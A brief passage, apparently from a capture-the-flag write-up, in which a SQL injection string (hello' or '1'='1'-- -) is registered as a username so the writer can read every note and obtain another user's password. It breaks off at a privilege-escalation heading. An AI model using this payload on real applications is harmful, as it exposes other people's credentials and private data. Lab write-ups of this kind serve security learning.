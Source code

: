 register user, and login. 

got all the notes, which contains the Tyler's password.

```bash
username: hello' or '1'='1'-- -
password: hello123
```

![image-20221022220033432](./images/image-20221022220033432.png)







# Privesc


